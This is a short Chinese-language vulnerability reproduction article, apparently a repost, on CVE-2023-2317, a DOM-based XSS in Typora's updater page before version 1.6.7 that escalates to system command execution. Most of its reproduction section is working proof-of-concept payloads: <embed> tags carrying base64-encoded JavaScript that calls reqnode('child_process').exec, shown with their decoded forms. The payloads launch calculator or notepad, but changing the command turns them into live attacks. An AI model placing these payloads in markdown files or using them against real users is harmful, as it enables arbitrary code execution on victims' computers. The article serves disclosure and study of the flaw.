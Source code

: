 #  【漏洞复现】Typora 远程代码执行漏洞(CVE-2023-2317)   
 安全客   2023-08-31 18:09  
  
Windows和Linux版本1.6.7之前的Typora中的updater/update.html中存在基于DOM的XSS，该漏洞允许通过加载特制的markdown文件从而使得执行任意JavaScript代码。  
  
如果用户打开恶意markdown文件或者从恶意网页复制文本并将其粘贴到Typora，通过在＜embed＞标签中引用update.html，则可以利用此漏洞，此外，攻击者可以使用特权接口reqnode访问节点模块child_process并执行任意系统命令。  
  
**漏洞复现**  
```
<embed style="height:0;" src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">
```
reqnode('child_process').exec(({Win32: 'calc', Linux: 'gnome-calculator -e "Typora RCE PoC"'})[navigator.platform.substr(0,5)])
```
<embed style="height:0;" src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ25vdGVwYWQgd3d3LmV4cHBvYy5vcmcnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">
```
reqnode('child_process').exec(({Win32: 'notepad www.exppoc.org', Linux: 'gnome-calculator -e "Typora RCE PoC"'})[navigator.platform.substr(0,5)])
```
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XB8gUH3cR11So2UBQfYShShc4c5nzB0pgPiczNkYia4axHoIPhFsLYjOtzTUHGt2eztuTPGGibWc7Ca3cM1gTqXFw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XB8gUH3cR11So2UBQfYShShc4c5nzB0pLAHsy3rRHWw10pIicpfsrfqaQXHr9sRJ4WwoGpjicJJLjIPmgNOf5BNg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XB8gUH3cR11So2UBQfYShShc4c5nzB0pCuiclSiaXgONnj6bkNuGgyM6XGAWeRK2uBqTSoZmesjzPmEF9eZM0GSQ/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/XB8gUH3cR11So2UBQfYShShc4c5nzB0pUvrDKBmgsZRmLB6Oic2Uu6L1sicdYiaGvHFwM1ryXfibMXPncKqclfSkjg/640?wx_fmt=png "")  
  
来源：利刃信安  
  
